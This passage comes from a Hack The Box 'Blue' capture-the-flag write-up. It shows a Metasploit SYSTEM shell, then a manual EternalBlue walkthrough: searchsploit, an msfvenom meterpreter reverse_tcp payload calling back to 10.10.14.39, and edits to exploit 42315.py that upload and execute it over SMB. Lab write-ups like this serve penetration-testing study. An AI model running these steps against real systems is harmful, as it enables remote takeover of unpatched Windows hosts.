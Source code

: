 ```
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[+] 10.10.10.40:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=


C:\Windows\system32>whoami
whoami
nt authority\system
```
<br>
<center><h2>Manual Walkthrough</h2></center>
<br><br>
Using ```searchsploit``` we can see the python script that we will be using. We want the second one.
```
# searchsploit "Eternal Blue"
--------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                 |  Path
                                                               | (/usr/share/exploitdb/)
--------------------------------------------------------------- ----------------------------------------
Microsoft Windows 7/2008 R2 - 'EternalBlue' SMB Remote Code Ex | exploits/windows/remote/42031.py
Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 - 'EternalBlue | exploits/windows/remote/42315.py
Microsoft Windows 8/8.1/2012 R2 (x64) - 'EternalBlue' SMB Remo | exploits/windows_x86-64/remote/42030.py
--------------------------------------------------------------- ----------------------------------------
```
You can copy it to your current working directory by using the -m option
```
# searchsploit -m exploits/windows/remote/42315.py
```
Now there are a couple steps we have to do before we can actually execute the exploit. First we have to generate our payload.
```
# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.39 LPORT=9999 -f exe > blue.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
```
Next we need to edit the python script. First edit the username variable so it contains two ```//```. This is because the SMB server allows guest login
```
USERNAME = '//'
PASSWORD = ''
```
Lastly, uncomment two lines and edit them to point to the payload that you created.
```
def smb_pwn(conn, arch):
        smbConn = conn.get_smbconnection()
        
        print('creating file c:\\pwned.txt on the target')
        tid2 = smbConn.connectTree('C$')
        fid2 = smbConn.createFile(tid2, '/pwned.txt')
        smbConn.closeFile(tid2, fid2)
        smbConn.disconnectTree(tid2)
        
 ---->  smb_send_file(smbConn, '/root/Documents/HTB2/Blue/blue.exe', 'C', '/blue.exe')
 ---->  service_exec(conn, r'cmd /c c:\\blue.exe')
        # Note: there are many methods to get shell over SMB admin session
        # a simple method to get shell (but easily to be detected by AV) is
        # executing binary generated by "msfvenom -f exe-service ..."
```